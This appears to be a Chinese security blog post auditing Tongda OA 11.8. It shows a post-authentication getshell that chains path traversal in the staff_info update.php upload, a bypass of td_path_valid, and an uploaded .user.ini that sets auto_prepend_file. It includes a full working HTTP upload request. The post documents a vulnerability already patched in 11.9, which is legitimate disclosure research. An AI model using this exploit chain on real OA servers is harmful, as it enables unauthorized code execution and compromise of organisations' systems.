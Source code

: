 ```yaml
---
title: 通达OA代码审计篇二 - 11.8 后台Getshell
date: 2021-03-09 17:33:14
tags:
- php
- tongda
---
```


---

前篇：[通达OA代码审计篇 - 11.7 有条件的任意命令执行](https://lorexxar.cn/2021/03/03/tongda11-7rce/)

前篇中提到的漏洞在11.8版本中被完全修复后，我痛定思痛，从头开始找一个新的漏洞，于是就有了今天这个漏洞的诞生，但没想到的是，在保留到2021年初时，1月11号更新的11.9版本中再次被定向修复。

今天我们也来看看这一次的漏洞逻辑~

<!--more-->

# 在绕过之前

在提到漏洞之前，首先我们需要清楚通达OA的几个关键机制。

首先是通用文件，整个OA的大部分文件都会引用`inc/utility*`多个文件，里面涉及到了所有OA的通用函数以及一些全局处理、配置文件等。

除了关注到一些过滤函数以外，还有一个比较重要的是在`inc/common.inc.php`的全局处理，并将全局变量对应赋值给对应变量名。

而这个文件被多个基础文件引用，所以我们就有了一个自带的全局变量覆盖，但是是经过过滤的。

可以明确的是，这个问题作为顽疾深深埋在了通达OA的深处，11.7以后的漏洞也大多都是因为这个原因造成的。

除了这个以外，在前一篇文章我提到过，通达OA关于文件上传相关的配置非常完善。首先是建了attachment作为附件目录，正常的文件上传都会传到这里。
```
location /attachment {
    deny all;
}
```

除此之外，上传函数还有3个限制条件：
1、不能没有.
2、不能.之后为空
3、.之后3个字符不能是PHP

且通达本身不解析特殊后缀如pht,phtml等...

换言之，也就是如果一切文件上传都建立在通达OA本身的逻辑上，我们一定没办法只靠文件上传一个漏洞来getshell，在前篇中，我利用了一个文件包含来引用上传的文件。但是在11.8中这个漏洞被修复了，我们就需要找别的办法。

这里我们绕过的思路主要有几个：
1、文件包含+文件上传
可惜，11.8开始，所有涉及到文件包含的接口都做了详细的限制，这样的接口本来也没有几个。
2、文件改名+跨目录文件上传
3、上传一个特殊的配置文件，比如.user.ini

建立在这样的思路基础上，我们挖掘了今天这个漏洞。

# 后台Getshell

这里我们找到
```
/general/hr/manage/staff_info/update.php line 28

```

![image-20210309150207639](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/image-20210309150207639.png)

根据前面的基础，可以清楚这里USERID可控，然后刚好USERID被拼接进去，熟悉的漏洞诞生了，通过设置USERID为`../../../`，我们可以将文件上传到任意位置。

但同样的问题还是存在，我们没办法上传PHP文件，而且比起11.7，这里的上传限制也有一定的改变。添加了一个新的限制

```
function td_path_valid($source, $func_name)
{
    $source_arr = pathinfo($source);
    $source = realpath($source_arr["dirname"]);
    $basename = strtolower($source_arr["basename"]);
    if ($source === false) {
        return false;
    }
    if ($func_name == "td_fopen") {
		$whitelist = "qqwry.dat,tech.dat,tech_cloud.dat,tech_neucloud.dat,";
		if ((strpos($source, "webroot\inc") !== false) && find_id($whitelist, $basename)) {
            return true;
        }
    }
    if ((strpos($source, "webroot") !== false) && (strpos($source, "attachment") === false)) {
        return false;
    }
    else {
        return true;
    }
}
```

这里多了一条限制`if ((strpos($source, "webroot") !== false) && (strpos($source, "attachment") === false))`.

我们需要找到一个同时满足webroot和attachment的目录即可，这里我们选用了
```
webroot\general\reportshop\workshop\report\attachment-remark
```

这里我们构造文件向
```
/general/hr/manage/staff_info/update.php?USER_ID=../../general\reportshop\workshop\report\attachment-remark/1
```
上传t.txt，这里就会成功写入一个1.txt文件。

在这个基础上，我们通过上传.user.ini来修改当前目录的配置。

具体原理可以参考[https://www.leavesongs.com/PENETRATION/php-user-ini-backdoor.html](https://www.leavesongs.com/PENETRATION/php-user-ini-backdoor.html)

```
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general\reportshop\workshop\report\attachment-remark/.user HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 367
Connection: close
Cookie: PHPSESSID=76vrueivunkeingvpcv7cs4uu3; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=a4c45fc7; KEY_RANDOMDATA=7645
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttttttt.ini"
Content-Type: text/plain

auto_prepend_file=1.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--

```

上传成功之后，上传1.log在目录下，然后请求该路径下任意php文件即可

值得注意的是，修改.user.ini并不是即时生效的，一般来说等待一会儿即可。

比较有意思的修复逻辑也很针对
![image-20210309161916836](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/image-20210309161916836.png)

直接对userid做了过滤。


# 漏洞证明

![image-20210309161804488](https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/blog/image-20210309161804488.png)


# 写在最后

这个漏洞是在前篇文章被修复之后挖掘的，可以算是相对比较隐蔽的漏洞吧，可惜没想到在手里还没过3个月就又被修复了，其实这个漏洞还是有配合的前台绕过方式的，但是由于时期特殊就不公开了，比较可惜的是在11.9中这些漏洞都被修复了。不得不说这几个版本通达的代码风格变化很大，虽然还是免不了挖东墙补西墙的感觉，但一些比较致命的问题都做了限制，后续如果还想挖通达的漏洞就比较难了，希望还能有更好的思路公开出来吧~